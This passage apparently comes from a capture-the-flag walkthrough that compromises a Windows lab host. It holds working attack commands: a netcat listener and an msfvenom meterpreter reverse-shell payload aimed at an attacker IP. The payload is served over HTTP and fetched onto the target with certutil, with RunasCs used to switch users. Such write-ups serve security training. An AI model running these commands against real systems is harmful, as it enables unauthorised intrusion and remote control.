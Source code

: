 

Hit **Save** and make sure to note down the path



![](https://i.imgur.com/4fk4JvO.png)



Go ahead and start up your reverse shell and navigate to the path in which was noted down to get a reverse shell


```
rlwrap nc -lvnp 4444
```


![](https://i.imgur.com/2tA4cVe.png)


Running the below command we can enumerate users on this system

```
net user /domain
```


![](https://i.imgur.com/U4QXAZS.png)


Navigating to the `web_account` **Desktop** directory i found a `RunasCs.exe` binary 




![](https://i.imgur.com/jlJztYT.png)


> _RunasCs_ is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials. This tool is an improved and open version of windows builtin _runas.exe_ that solves some limitations


We can attempt to get a reverse shell as user `tstark` with this utility, first of all generate a msfvenom payload for reverse shell and transfer to the `web_account` host with `certutil`


```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER-IP> LPORT=1337 -f exe -o shell.exe

# Host file
python3 -m http.server 80

# Transfer file
certutil.exe -urlcache -split -f http://10.10.14.199/shell.exe shell.exe
```


![](https://i.imgur.com/sD83PaM.png)

After few attempts to use `RunasCs.exe` like this, i seem to get a permission error but lucky for us we can still get a reverse shell with netcat using powershell

